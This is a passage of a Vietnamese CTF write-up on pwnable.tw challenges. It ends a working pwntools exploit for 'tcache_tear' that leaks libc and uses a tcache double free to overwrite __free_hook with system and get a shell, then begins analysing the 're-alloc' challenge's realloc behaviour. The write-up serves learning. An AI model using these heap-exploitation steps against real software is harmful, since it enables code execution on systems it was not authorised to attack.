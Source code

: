# leak success
show()
p.recvuntil(b'Name :')
p.recv(16)
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x3ebca0
log.success(f'libc address: {hex(libc.address)}')

input()
# OVER WRITE HOOK
malloc(0x70,b'a')
free()
free()
malloc(0x70,p64(libc.sym.__free_hook))
malloc(0x70,b'a')
malloc(0x70,p64(libc.sym.system))

# CHANGE PTR TO GET SHELL
malloc(0x70,b'a')
malloc(0x70,b'/bin/sh\x00')
free()



p.interactive()
```
![image](/assets/images/Pwnable.tw/17.png)


ref : https://www.theflash2k.me/blog/writeups/pwnable.tw/tcache_tear


## re-alloc


checksec : 
![image](/assets/images/Pwnable.tw/18.png)


- chương trình sẽ có 3 option chính :

![image](/assets/images/Pwnable.tw/19.png)

allocate:

ở đây nó giới hạn ta chỉ được nhập 2 idx và size <= 0x78(tcache) , tiếp theo nó dùng ```realloc``` để phân bổ và nhập dữ liệu vào 
![image](/assets/images/Pwnable.tw/20.png)

ta sẽ thử tìm hiểu xem realloc sẽ khác gì so với malloc : 

- realloc(ptr, NULL): sẽ tương tự với free(ptr)
- realloc(ptr, size): mở rộng/thu nhỏ đoạn bộ nhớ dựa trên kích thước được yêu cầu. Nếu giá trị kích thước giống với kích thước khối cũ thì không có gì được thực hiện và khối bộ nhớ tương tự sẽ được trả về.

- realloc(NULL, size) : giống như malloc(size)


rfree() :

dùng realloc(ptr, NULL) để giải phóng chunk này và gán NULL -> không có UAF
```